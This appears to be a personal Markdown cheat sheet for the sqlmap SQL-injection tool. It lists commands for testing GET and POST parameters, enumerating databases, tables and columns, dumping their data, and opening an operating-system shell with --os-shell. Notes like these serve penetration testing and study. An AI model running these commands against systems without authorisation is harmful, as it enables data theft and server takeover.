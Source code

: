 ```yaml
---
tags:
---
```


# Sqlmap
---

Sqlmap is **an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers**.

## Usage
---

### GET
---

```bash
sqlmap -u "<URL>" -p "<injection parameter>" --dbs
```

### POST
---

```bash
sqlmap -u "<URL>" --data=<POST string> -p <injection parameter> id --technique=U --dbs
```

> `--technique=U` tells Sqlmap to use a UNION based SQL injection technique.

### Steps for dumping database
---

1. Step 1: List information about the existing databases
    
    ```bash
    sqlmap -u "<URL>" --dbs
    ```
    
2. Step 2: List information about Tables present in a particular Database
    
    ```bash
    sqlmap -u "<URL>"  -D <database we found> --tables
    ```
    
3. Step 3: List information about the columns of a particular table
    
    ```bash
    sqlmap -u "<URL>"  -D <database we found> -T <Tables we found> --columns
    ```
    
4. Step 4: Dump the data from the columns
    
    ```bash
    sqlmap -u "<URL>" -D <database we found> -T <Tables we found> -C <Columns we found> --dump
    ```
    

### Specify
---

- Cookie
    
    ```bash
    sqlmap -u "<URL>" -p title --cookie "<cookie>"
    ```
    
- File (and take "title" as the test parameter)
    
    ```bash
    sqlmap -r request -p title
    ```
    

### GET Shell
---

```bash
sqlmap -r request -p title --os-shell
```





